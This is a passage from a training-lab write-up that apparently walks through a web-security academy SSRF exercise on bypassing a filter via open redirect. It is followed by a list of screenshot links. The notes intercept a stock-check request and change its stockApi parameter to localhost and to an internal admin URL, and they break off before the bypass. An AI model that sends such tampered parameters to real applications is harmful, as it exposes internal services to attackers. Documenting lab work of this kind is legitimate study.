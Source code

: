 ```bash

Response:

HTTP/1.1 302 Found

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515211806.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212010.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515211840.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212034.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212132.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212152.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212327.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212411.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212448.png)

### SSRF with filter bypass via open redirection vulnerability
```bash

####  This lab has a stock check feature which fetches data from an internal system.

#### To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

#### The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 

Go to: "View detials"
Intercept is on
Click "Check stock"
Send to repeater
Change:

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

To

stockApi=http://localhost

Note the response:

HTTP/1.1 400 Bad Request

"External stock check host must be stock.weliketoshop.net"

Try:

stockApi=http://192.168.0.12:8080/admin

Response:
```